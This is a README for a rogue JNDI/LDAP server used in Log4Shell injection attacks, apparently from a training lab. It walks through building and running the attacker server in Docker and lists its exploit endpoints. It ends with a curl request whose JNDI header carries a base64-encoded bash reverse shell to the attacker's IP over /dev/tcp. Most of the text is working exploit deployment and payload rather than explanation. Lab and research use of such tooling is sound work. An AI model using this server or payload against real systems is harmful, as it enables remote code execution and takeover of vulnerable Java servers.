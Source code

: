 # Rogue JNDI Server
A malicious LDAP server for JNDI injection attacks created by the [Veracode research team](https://github.com/veracode-research).

## Updates
* Extended Tomcat controller LDAP mapping URIs to cover direct b64 encoded strings requests for PowerShell and Bash.
    * `/o=tomcat`, `/o=tomcat,pwshb64cmd=*`, `/o=tomcat,bashb64cmd=*`
* Updated `artsploit` utilities:
    * Created a method to take PowerShell or Bash b64 encoded strings and pack it so that it can be executed as a `java.lang.Runtime.exec()` payload.
    * Integrated [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit/blob/master/src/main/java/jndi/LDAPRefServer.java#L115) method to convert bytes to hex to show serialized data before it gets sent to the client.

## Deploy Rogue JNDI Server

clone GitHub project

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```

We are going to build our rogue-jndi server to apply the recent modifications. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

Build docker image

```bash
cd log4jshell-lab/attacker/rogue-jndi/

docker build . -t rogue-jndi
```

## Run Project

```bash
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```

```
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8888
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.2.6:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,pwshb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.2.6:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.2.6:1389/o=reference to artsploit.controllers.RemoteReference
```

## Test JNDI Lookup - Bash B64 Encoded Command

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjIuNi80NDMgMD4mMQ%3D%3D}' 127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/threadcontext
```

![](../../resources/images/log4jshell-lab-rogue-jndi-test.png)

# References
* https://github.com/veracode-research/rogue-jndi
* https://www.jackson-t.ca/runtime-exec-payloads.html